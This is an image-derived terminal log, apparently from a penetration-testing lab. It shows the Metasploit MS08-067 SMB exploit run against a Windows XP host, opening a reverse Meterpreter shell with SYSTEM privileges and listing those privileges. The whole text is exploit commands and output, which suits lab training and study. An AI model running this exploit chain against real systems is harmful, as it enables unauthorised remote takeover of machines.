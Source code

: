 ```c
   Id  Name
   --  ----
   0   Automatic Targeting

msf6 exploit(windows/smb/ms08_067_netapi) > set RHOSTS 10.10.10.4
RHOSTS => 10.10.10.4
msf6 exploit(windows/smb/ms08_067_netapi) > set LHOST 10.10.14.8
LHOST => 10.10.14.8
msf6 exploit(windows/smb/ms08_067_netapi) > run

[*] Started reverse TCP handler on 10.10.14.8:4444 
[*] 10.10.10.4:445 - Automatically detecting the target...
[*] 10.10.10.4:445 - Fingerprint: Windows XP - Service Pack 3 - lang:Unknown
[*] 10.10.10.4:445 - We could not detect the language pack, defaulting to English
[*] 10.10.10.4:445 - Selected Target: Windows XP SP3 English (AlwaysOn NX)
[*] 10.10.10.4:445 - Attempting to trigger the vulnerability...
[*] Sending stage (175174 bytes) to 10.10.10.4
[*] Meterpreter session 1 opened (10.10.14.8:4444 -> 10.10.10.4:1028) at 2021-09-15 10:07:23 +0530

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > getpid
Current pid: 996
meterpreter > getprivs

Enabled Process Privileges
==========================

Name
----
SeAssignPrimaryTokenPrivilege
SeAuditPrivilege
SeBackupPrivilege
SeChangeNotifyPrivilege
SeCreateGlobalPrivilege
SeCreatePagefilePrivilege
SeCreatePermanentPrivilege
SeCreateTokenPrivilege
SeDebugPrivilege
SeImpersonatePrivilege
SeIncreaseBasePriorityPrivilege
SeIncreaseQuotaPrivilege
SeLoadDriverPrivilege
SeLockMemoryPrivilege
SeManageVolumePrivilege
SeProfileSingleProcessPrivilege
SeRestorePrivilege
SeSecurityPrivilege
SeShutdownPrivilege
SeSystemEnvironmentPrivilege
SeSystemtimePrivilege
SeTakeOwnershipPrivilege
SeTcbPrivilege
SeUndockPrivilege

meterpreter > 
```
